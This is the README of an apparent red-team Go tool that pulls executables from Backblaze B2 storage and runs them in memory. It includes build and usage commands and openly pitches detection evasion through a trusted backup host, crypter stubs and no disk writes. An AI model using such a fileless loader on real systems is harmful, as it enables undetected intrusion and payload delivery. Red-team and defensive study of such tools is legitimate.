 # Backblaze Memexec 

this is a POC redteaming Go utility that downloads any executable directly from Backblaze B2 cloud storage and runs them in memory without ever saving them to disk.

## Features
- Download payloads from a corporate trusted source, if the target is using this as a backup service, it will be very hard to detect.
- Execute payloads in memory without ever saving them to disk (especially useful if the payload you're executing is a stub of your executablecreated by https://github.com/carved4/gocrypter or a similar tool)
- Fully modular, payloads can be changed with the ease of a GUI upload to backblaze.
- Backblaze does not require a credit card or insecure email service to sign up.
- Bucket can be switched out easily via changing the hardcoded account ID, application key, and bucket name.
## Installation

```bash
go get github.com/carved4/backblaze-memexec
# Or clone the repository and build it manually
git clone https://github.com/carved4/backblaze-memexec.git
cd backblaze-memexec
# change the account ID, application key, and bucket name in the code.
go build -ldflags="-w -s" -trimpath -o backblaze.exe
# or for linux
GOOS=linux GOARCH=amd64 go build -ldflags="-w -s" -trimpath -o backblaze
```

## Usage

```bash
# Run the default executable (test.exe) from the default bucket AFTER changing the account ID, application key, and bucket name in the code. 
# also, I recommend changing the DefaultExecutable in main.go from 'test.exe' to whatever the name of your file is before building so you don't have to pass in CLI args.
./membb

# Run a specific executable from the default bucket
./membb -file my_program.exe
# or
./membb my_program.exe

# Run with arguments
./membb -args "arg1,arg2,arg3"

# Run a different executable with arguments
./membb -file other_program.exe -args "arg1,arg2,arg3"
# or
./membb other_program.exe -args "arg1,arg2,arg3"
```

## How It Works

MemBB uses the [blazer](https://github.com/kurin/blazer) library to interact with Backblaze B2 API and download files. For in-memory execution, it uses [go-memexec](https://github.com/amenzhinsky/go-memexec) which allows executing binaries directly from memory without saving them to disk.

The entire process happens as follows:
1. Connect to Backblaze B2 using hardcoded credentials
2. Download the specified executable file (or test.exe by default) into memory
3. Use go-memexec to execute the file directly from memory
4. Pass any specified arguments to the executed process

## Security Considerations

- Obviosuly do not use an important (non throwaway) bucket for this, as reverse engineering of the binary may yield the plaintext creds
- The tool does not verify the integrity of downloaded executables
- I am not responsible for your actions, do not use this for malicious purposes.

## Requirements

- Go 1.18 or higher
- Valid Backblaze B2 bucket with appropriate executables

## License

[MIT License](LICENSE) 